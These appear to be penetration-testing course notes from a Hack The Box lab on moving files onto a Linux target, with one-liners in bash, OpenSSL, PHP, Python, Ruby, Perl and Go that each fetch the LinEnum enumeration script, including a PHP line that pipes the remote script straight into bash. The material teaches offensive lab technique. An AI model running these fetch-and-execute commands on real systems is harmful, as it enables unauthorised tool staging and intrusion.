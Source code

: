 # Linux File Transfer Methods

## Wget / cURL

Wget and cURL are installed on many Linux distributions and support uploading as well as downloading files.
````bash
Ryohei@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
````
````bash
Ryohei@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
````

## OpenSSL

OpenSSL is frequently installed and is also often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### Create certificate
````bash
Ryohei@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
````
### Stand up server
````bash
Ryohei@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
````
### Download file
````bash
Ryohei@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
````
## Bash (/dev/tcp)
There may also be situations where no obvious file transfer tools are available. In this case, as long as bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/tcp device file can be used for simple file downloads.

### Connect to Target's Webserver
````bash
Ryohei@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
````
### HTTP GET Request
````bash
Ryohei@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
````
### Print the Response
````bash
Ryohei@htb[/htb]$ cat <&3
````

## PHP
PHP is also very prevalent and provides multiple file transfer methods.

### File_get_contents()
````bash
Ryohei@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
````
### Fopen()
````bash
Ryohei@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
````
If the php-curl module has been installed, this can alternatively be used.

### Php-curl
````
Ryohei@htb[/htb]$ php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
````
It is also possible to retrieve each line as an array and pipe the output to bash.

````
Ryohei@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
````

## Python
Python is often present on Linux and can be used to download files when Wget and cURL are not available. Although Python isn’t currently installed by default in Windows, typing Python in a command prompt opens the Windows Store's official distribution with a single-click install. Python is frequently installed on developer and IT computers and is bundled by default with major business financial applications such as Bloomberg (Bloomberg Professional Services).

### Python 2
````bash
Ryohei@htb[/htb]$ python2
````
````python
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````
### Python 3
````bash
Ryohei@htb[/htb]$ python3
````
````python
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````

## Other Languages
Ruby, Perl, and Golang are some other popular languages that can also transfer files.

### Ruby
````bash
Ryohei@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
````
### Perl
````bash
Ryohei@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
````
### Go
````go
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
````
